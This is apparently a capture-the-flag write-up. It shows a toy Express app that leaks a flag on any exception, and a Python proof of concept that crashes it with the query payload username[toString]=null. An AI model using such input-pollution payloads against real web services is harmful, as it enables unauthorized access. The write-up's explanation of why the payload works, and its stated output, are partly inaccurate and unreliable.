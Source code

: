 # javascript puzzle

## Source Code Analysis

The challenge is a simple web application exposing the default endpoint.
If the user is able to trigger an exception, gets the flag.

```javascript
const express = require('express')

const app = express()
const port = 8000

app.get('/', (req, res) => {
    try {
        const username = req.query.username || 'Guest'
        const output = 'Hello ' + username
        res.send(output)
    }
    catch (error) {
        res.sendFile(__dirname + '/flag.txt')
    }
})

app.listen(port, () => {
    console.log(`Server is running at http://localhost:${port}`)
})
```

## Exploit

There is no check over user input.
The solution is triggering the exception in the `output` initialization line, by providing some data which cannot be converted to string and concatenated to 'Hello'.

```python
import requests

url = "http://localhost:8000"

resp = requests.get(f"{url}?username[toString]=null")
print(resp.text) 
```

    TypeError: Cannot convert object to primitive value

This is due to the fact that the provided value is an object that has a toString method, but the toString method is returning the string 'null', and JavaScript is attempting to convert the object into a primitive value when using the + operator.